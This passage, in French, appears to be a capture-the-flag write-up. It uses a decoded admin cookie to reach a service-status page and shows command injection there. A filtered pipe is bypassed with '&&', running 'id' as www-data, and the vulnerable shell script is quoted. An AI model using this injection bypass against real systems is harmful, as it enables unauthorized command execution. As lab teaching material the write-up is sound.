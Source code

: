 ```

</body>
</html>
```
J'ai donc le cookie admin, il donne cela une fois décodé:
```
admin:d65[...REDACTED...]20a5
```
La page administrateur permet de voir le status des services en ligne sur la machine.
Quand je recherche SSH, j'obtient ce résultat :
```
* ssh.service - OpenBSD Secure Shell server
   Loaded: loaded (/lib/systemd/system/ssh.service; enabled; vendor preset: enabled)
   Active: active (running) since Thu 2024-05-02 08:54:45 UTC; 1h 59min ago
  Process: 1082 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
 Main PID: 1128 (sshd)
    Tasks: 1
   Memory: 1.6M
      CPU: 238ms
   CGroup: /system.slice/ssh.service
           `-1128 /usr/sbin/sshd -D
```
Pour cela, il envoi forcement une commande dans un shell et capture le résultat pour le renvoyer. On va tenter d'injecter des commandes.
Il n'y a visiblement pas beaucoup de filtre....

Le pipe est filtré:
```
ssh | id
```
```
Command injection detected, please provide a service.
```
mais **&&** ne l'est pas !
```
ssh && id
```
```
* ssh.service - OpenBSD Secure Shell server
   Loaded: loaded (/lib/systemd/system/ssh.service; enabled; vendor preset: enabled)
   Active: active (running) since Thu 2024-05-02 08:54:45 UTC; 2h 0min ago
  Process: 1082 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
 Main PID: 1128 (sshd)
    Tasks: 1
   Memory: 1.6M
      CPU: 238ms
   CGroup: /system.slice/ssh.service
           `-1128 /usr/sbin/sshd -D
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
On peu donc executer des commandes sur le serveur.


On peux voir par exemple la présence de ce script dans **/var/www/html**
```service_status.sh
#!/bin/bash

service_name=$1
status=$(systemctl status "$service_name")

echo "$status"
```
Qui est executer quand on cherche un service ou la page administration.php
```administration.php
prepare("SELECT * FROM users WHERE username = ? AND password = ?");
  // Bind parameters
  $stmt->bind_param("ss", $username, $password_hash);
```